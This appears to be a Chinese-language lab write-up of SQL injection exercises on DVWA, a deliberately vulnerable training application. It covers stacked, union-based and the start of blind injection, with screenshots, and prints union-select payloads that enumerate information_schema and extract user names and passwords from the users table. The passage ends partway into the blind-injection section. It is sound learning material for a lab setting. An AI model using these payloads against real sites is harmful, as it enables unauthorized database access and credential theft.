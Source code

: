 改一下代码显示sql语句。

```/var/www/html/www1/vulnerabilities/sqli/source```在这个文件下有源码在+一条```echo $query```![1559638360170](assets/1559638360170.png)

（2）堆叠注入

![1559638482214](assets/1559638482214.png)

不知道为何会报错把这条语句复制下来在mysql命令行输入没有报错正常显示

![1559640619722](assets/1559640619722.png)
（3）union注入

第一步先进行字段数量判断```order by xx```

![1559640910854](assets/1559640910854.png)

```order by 3```的时候出现了报错说明为2个字段代码中也能体现，但是如果是渗透测试是看不见数据库命令的只能通过这个去尝试

![1559640986613](assets/1559640986613.png)

得出2个字段后进行union注入```id=1'union+select+1,2%23```

![1559641067490](assets/1559641067490.png)

1和2都显示了说明都可以进行替换。

![1559641595196](assets/1559641595196.png)

```?id=1'union+select+table_schema,table_name from information_schema.tables%23```把所有数据库的库和表都对应的显示出来了。寻找需要的表

![1559642200199](assets/1559642200199.png)

![1559642236485](assets/1559642236485.png)

再去查字段```?id=1'union+select+column_name,2 from information_schema.columns%23```到最后找到属于users表的字段

first_name,password再去构造查询语句



![1559642392277](assets/1559642392277.png)

```?id=1'union+select+first_name,password from dvwa.users```查询到要拿到的内容了想想有没有简单的方法。

![1559642467988](assets/1559642467988.png)

直接去查询他的表对应的字段就简单了

```?id=1'union+select+table_name,column_name from information_schema.columns%23```

所以只需要记住information_schema库下的columns表中的字段就可以了库是table_schema,表是table_name,字段是column_name

![1559642699678](assets/1559642699678.png)
（4）SQL Injection(Bind)

盲注即为不回显内容需要进行尝试根据页面返回的内容是否正常来进行判断

![1559643423663](assets/1559643423663.png)

![1559643479549](assets/1559643479549.png)

说明存在盲注

![1559643490081](assets/1559643490081.png)
```